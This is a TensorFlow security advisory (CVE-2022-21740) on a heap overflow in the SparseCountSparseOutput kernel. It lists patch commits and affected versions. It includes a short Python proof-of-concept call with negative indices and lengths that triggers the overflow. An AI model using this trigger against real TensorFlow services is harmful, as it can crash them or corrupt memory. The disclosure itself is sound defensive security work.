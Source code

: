 ## TFSA-2022-020: Heap overflow in `SparseCountSparseOutput`

### CVE Number
CVE-2022-21740

### Impact
The [implementation of `SparseCountSparseOutput`](https://github.com/tensorflow/tensorflow/blob/5100e359aef5c8021f2e71c7b986420b85ce7b3d/tensorflow/core/kernels/count_ops.cc#L168-L273) is vulnerable to a heap overflow:

```python
import tensorflow as tf
import numpy as np

tf.raw_ops.SparseCountSparseOutput(
  indices=[[-1,-1]],
  values=[2],
  dense_shape=[1, 1],
  weights=[1],
  binary_output=True,
  minlength=-1,
  maxlength=-1,
  name=None)
```

### Patches
We have patched the issue in GitHub commits [2b7100d6cdff36aa21010a82269bc05a6d1cc74a](https://github.com/tensorflow/tensorflow/commit/2b7100d6cdff36aa21010a82269bc05a6d1cc74a) and [adbbabdb0d3abb3cdeac69e38a96de1d678b24b3](https://github.com/tensorflow/tensorflow/commit/adbbabdb0d3abb3cdeac69e38a96de1d678b24b3).

The fix will be included in TensorFlow 2.8.0. We will also cherrypick this commit on TensorFlow 2.7.1, TensorFlow 2.6.3, and TensorFlow 2.5.3, as these are also affected and still in supported range.

### For more information
Please consult [our security guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for more information regarding the security model and how to contact us with issues and questions.

### Attribution
This vulnerability has been reported by Faysal Hossain Shezan from University of Virginia.
